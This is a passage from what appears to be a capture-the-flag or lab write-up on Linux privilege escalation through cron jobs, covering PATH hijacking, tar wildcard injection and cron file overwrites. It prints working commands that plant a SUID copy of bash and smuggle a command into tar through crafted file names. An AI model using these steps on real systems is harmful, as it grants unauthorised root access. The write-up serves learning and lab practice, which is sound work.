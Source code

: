 **overwrite.sh** is being ran as cronjob:


![](https://i.imgur.com/A8yTRGn.png)

The $PATH is used to set the default path where the cron jobs would run from. Unless specified otherwise.

In our case, the cron jobs $PATH has been set to the user’s home directory. Meaning the default path for cron jobs to run will be the _user_’s home directory:

![](https://i.imgur.com/Q4K7R0o.png)

However, there is no overwirte.sh at /home/user.

Since administrator hasn't created overwrite.sh on /home/user yet, I can create my own **overwrite.sh**:

`echo 'cp /bin/bash /tmp/bash; chmod +s /tmp/bash' > /home/user/overwrite.sh`

With the command below, now I have escalated shell:

`/tmp/bash -p`

### Escalation via Cron Wildcards

**/usr/local/bin/compress.sh** was being ran on cronjobs:

```bash
#!/bin/sh
cd /home/user
tar czf /tmp/backup.tar.gz *
```

  
I first created **runme.sh** that contains script for escalated bash:

`echo 'cp /bin/bash /tmp/bash; chmod +s /tmp/bash' > runme.sh`

Now I give it execute permission

`chmod +x runme.sh`

I set the checkpoint:

`touch /home/user/--checkpoint=1`

Checkpoint will execute runme.sh when cron runs:

`touch /home/user/--checkpoint-action=exec=sh\runme.sh`

Running below command, I get shell as root:

`/tmp/bash -p`

  

### Escalation via Cron File Overwrites

This is the most common way.

On [HTB-Cronos](https://jadu101.github.io/Hackthebox%F0%9F%93%A6/HTB-Cronos), Linpeas showed that **laravevl/artisan** is on cron jobs:
